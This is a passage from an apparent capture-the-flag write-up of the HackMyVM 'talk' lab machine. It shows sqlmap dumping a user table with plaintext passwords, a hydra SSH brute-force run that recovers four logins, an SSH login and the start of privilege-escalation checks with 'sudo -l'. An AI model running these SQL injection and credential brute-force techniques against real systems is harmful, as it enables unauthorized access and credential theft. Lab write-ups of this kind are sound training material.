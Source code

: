 So, yes. I carry on with **sqlmap**:

{% highlight shell %}
Database: chat
Table: user
[5 entries]
+--------+-----------------+-------------+-----------------+----------+
| userid | email           | phone       | password        | username |
+--------+-----------------+-------------+-----------------+----------+
| 5      | david@david.com | 11          | adrianthebest   | david    |
| 4      | jerry@jerry.com | 111         | thatsmynonapass | jerry    |
| 2      | nona@nona.com   | 1111        | myfriendtom     | nona     |
| 1      | pao@yahoo.com   | 09123123123 | pao             | pao      |
| 3      | tina@tina.com   | 11111       | davidwhatpass   | tina     |
+--------+-----------------+-------------+-----------------+----------+

[21:14:44] [INFO] table 'chat.`user`' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.10.66/dump/chat/user.csv'
[21:14:44] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.10.66'

[*] ending @ 21:14:44 /2022-01-22/
{% endhighlight %}

#### Privesc etc

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/talk]
└─# hydra -L users -P pass ssh://10.10.10.66
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-22 21:16:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:6/p:5), ~2 tries per task
[DATA] attacking ssh://10.10.10.66:22/
[22][ssh] host: 10.10.10.66   login: nona   password: thatsmynonapass
[22][ssh] host: 10.10.10.66   login: david   password: davidwhatpass
[22][ssh] host: 10.10.10.66   login: jerry   password: myfriendtom
[22][ssh] host: 10.10.10.66   login: adrian   password: adrianthebest
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-22 21:16:57
                                                                                                                                                                    
┌──(root💀kali)-[/opt/hackmyvm/talk]
└─# ssh adrian@10.10.10.66
adrian@10.10.10.66s password: 
Linux talk 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
adrian@talk:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.